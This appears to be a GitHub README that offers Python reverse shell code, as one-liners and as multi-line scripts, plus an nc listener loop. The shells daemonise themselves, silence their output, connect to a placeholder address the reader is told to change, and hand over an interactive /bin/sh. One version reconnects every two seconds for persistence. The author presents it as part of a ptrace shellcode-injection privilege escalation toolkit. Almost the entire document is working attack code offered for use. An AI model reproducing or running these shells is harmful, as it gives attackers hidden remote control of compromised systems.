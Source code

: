# python 2 & 3 reverse shell one liner detached (background) By David Reguera Garcia aka Dreg

Just change the part: "127.0.0.1",9999

Simple reverse shell, change the the "sdregs.connect(("127.0.0.1",9999))" part
```
python -c 'exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect(("127.0.0.1",9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")'
```

Infinite loop reverse shell each 2 seconds:
```
 python -c 'exec("""\nimport socket,subprocess,os,sys, time\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\nos.setsid()\nos.umask(0)\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nwhile 1:\n        try:\n                sys.stdout.flush()\n\n                sys.stderr.flush()\n\n                fdreg = open("/dev/null", "w")\n\n                sys.stdout = fdreg\n\n                sys.stderr = fdreg\n\n                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\n                sdregs.connect(("127.0.0.1",9999))\n\n                os.dup2(sdregs.fileno(),0)\n\n                os.dup2(sdregs.fileno(),1)\n\n                os.dup2(sdregs.fileno(),2)\n\n                p=subprocess.call(["/bin/sh","-i"])\n\n                sdregs.close()\n\n        except Exception:\n                pass\n\n        time.sleep(2)\n""")'
```

Just wait for reverse shell with a nc
```
while true; do nc -lvp 9999; done
```

I made this for my shellcode injector in sudo shells via ptrace:

https://github.com/David-Reguera-Garcia-Dreg/drx_ptrace_shellcode_injector

https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

https://github.com/David-Reguera-Garcia-Dreg/

http://www.fr33project.org

dreg@fr33project.org

## multi line code

### Simple reverse shell 

```
import socket,subprocess,os,sys

pidrg = os.fork()
if pidrg > 0:
	sys.exit(0)

os.chdir("/")

os.setsid()

os.umask(0)

drgpid = os.fork()
if drgpid > 0:
	sys.exit(0)

sys.stdout.flush()

sys.stderr.flush()

fdreg = open("/dev/null", "w")

sys.stdout = fdreg

sys.stderr = fdreg

sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

sdregs.connect(("127.0.0.1",9999))

os.dup2(sdregs.fileno(),0)

os.dup2(sdregs.fileno(),1)

os.dup2(sdregs.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

### Infinite loop reverse shell each 2 seconds

```
import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()

                sys.stderr.flush()

                fdreg = open("/dev/null", "w")

                sys.stdout = fdreg

                sys.stderr = fdreg

                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

                sdregs.connect(("127.0.0.1",9999))

                os.dup2(sdregs.fileno(),0)

                os.dup2(sdregs.fileno(),1)

                os.dup2(sdregs.fileno(),2)

                p=subprocess.call(["/bin/sh","-i"])

                sdregs.close()

        except Exception:
                pass

        time.sleep(2)
```

http://jagt.github.io/python-single-line-convert/
